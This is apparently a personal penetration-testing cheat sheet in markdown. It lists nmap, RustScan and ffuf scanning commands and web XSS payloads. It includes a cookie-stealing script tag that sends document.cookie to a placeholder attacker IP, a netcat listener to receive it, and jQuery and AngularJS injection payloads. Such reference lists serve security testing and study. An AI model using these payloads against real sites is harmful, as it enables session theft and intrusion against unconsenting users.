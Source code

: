 # My Security Resources
- 來幫我按星星啦 Q__Q 
    - https://github.com/stevenyu113228/My-Security-Resources

---
[TOC]

## Scan
### Portscan
- nmap
    - Static Binary
        - https://github.com/ernw/static-toolbox/releases
        - https://github.com/andrew-d/static-binaries/blob/master/binaries/windows/x86/nmap.exe
    - Parameters
        - `-A` : Enable OS detection, version detection, script scanning, and traceroute
        - `-p-` : Scan all ports
        - `-p 1000-9999` : Scan port from 1000 to 9999 
        - `-sV` : Services version
        - `-Pn` : No ping
        - `--script=vuln` : Scan vulnerability
        - `-p139,445` : Only scan 139,445 port
        - `-sn` : Host ping scan
        - `--source-port 4444` : use source port 4444 to scan 
    - Fast UDP Scan
        - `sudo nmap -sUV -T4 -F --version-intensity 0 {IP}`
- RustScan
	- `rustscan -a 10.10.166.15`
	    - `-r 1-65535` : Port range from 1 to 65535
## Web
### Scan
- [Dirsearch](https://github.com/maurosoria/dirsearch)
- [Githack-python3](https://github.com/tigert1998/GitHack-py3)
- [FFUF](https://github.com/ffuf/ffuf)
    - Fuzz sub-domain
        - `ffuf -c -w /usr/share/dnsrecon/subdomains-top1mil-20000.txt -u http://{domain.name}/ -H "Host: FUZZ.{domain.name}" -fs {normal_size}`
        - Wordlist
            - https://github.com/danTaler/WordLists/blob/master/Subdomain.txt
            - `/usr/share/dnsrecon/subdomains-top1mil.txt`
    - Get Parameter
        - https://raw.githubusercontent.com/danielmiessler/SecLists/master/Discovery/Web-Content/burp-parameter-names.txt
### Front-End
#### XSS
- Cheatsheet
    - https://portswigger.net/web-security/cross-site-scripting/cheat-sheet
- Steal Cookie
	- `<script>new Image().src="http://{my_ip}:1234/"+document.cookie</script>`
	- `nc -l 1234`
- JQuery
```
$(`h2:contains("<img src=1 onerror=alert(1)>"`)
$(`h2:contains(""<img src=1 onerror=alert(1)>`)
```
- Angular JS
    - `{{constructor.constructor('alert(1)')()}}`
- JS feature
    - `"<><meow>".replace("<",1).replace(">",2)` = `12<meow>`
